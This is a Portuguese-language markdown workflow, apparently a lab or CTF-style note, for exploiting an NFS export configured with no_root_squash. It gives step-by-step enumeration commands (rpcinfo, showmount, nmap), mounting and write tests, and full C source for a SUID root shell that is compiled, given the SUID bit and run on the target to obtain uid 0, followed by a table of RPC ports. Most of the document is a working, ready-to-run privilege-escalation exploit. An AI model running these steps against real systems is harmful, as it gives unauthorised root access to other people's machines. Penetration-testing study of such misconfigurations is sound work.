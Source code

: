 # 🛠️ Workflow Exploração NFS Vulnerável (`no_root_squash`)

## 1. Enumeração Inicial
Verificar quais serviços RPC estão ativos:

```bash
rpcinfo -p <IP-alvo>
```

- Confirme se existe:
  - **111/tcp** (portmapper)
  - **2049/tcp** (NFS)
  - **mountd** (porta dinâmica, ex: 53528)

Listar exports disponíveis:

```bash
showmount -e <IP-alvo>
```

> 💡 Se não responder, use:
```bash
nmap --script nfs-showmount -p 2049 <IP-alvo>
```

---

## 2. Montar Export
Crie um diretório local e monte o export:

```bash
sudo mkdir -p /mnt/teste
sudo mount -t nfs <IP-alvo>:/ /mnt/teste
```

Verifique se montou corretamente:

```bash
mount | grep nfs
```

---

## 3. Testar Escrita
Testar se é possível escrever no export:

```bash
sudo bash -c 'echo "teste root" > /mnt/teste/rootcheck.txt'
ls -l /mnt/teste/rootcheck.txt
```

- Se o arquivo for criado → o export é **RW**.

---

## 4. Criar Binário SUID
No diretório montado, crie um shell SUID:

```bash
cat <<'EOF' > /mnt/teste/suid_shell.c
#include <unistd.h>
int main() { setuid(0); setgid(0); execl("/bin/sh","sh",NULL); }
EOF

gcc /mnt/teste/suid_shell.c -o /mnt/teste/suid_shell
chmod +s /mnt/teste/suid_shell
```

Verifique as permissões:

```bash
ls -l /mnt/teste/suid_shell
# deve mostrar: -rwsr-xr-x
```

---

## 5. Execução no Servidor
No **servidor alvo (192.168.56.113)**, vá até o export e execute:

```bash
./suid_shell
```

Se o exploit funcionar, você terá:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

➡️ **Shell root na máquina alvo.**

---

## 🔹 Resumo de Portas Importantes

| Programa RPC     | Porta   | Protocolo | Função                                |
|------------------|---------|-----------|---------------------------------------|
| portmapper       | 111     | TCP/UDP   | Descobre quais portas serviços RPC usam|
| mountd           | Dinâmico| TCP/UDP   | Lista exports e fornece handle inicial |
| nfs daemon       | 2049    | TCP/UDP   | Leitura/escrita de arquivos exportados |
| nlockmgr         | Dinâmico| TCP/UDP   | Gerencia locks de arquivos             |
| status (statd)   | Dinâmico| TCP/UDP   | Mantém info de clientes/locks          |

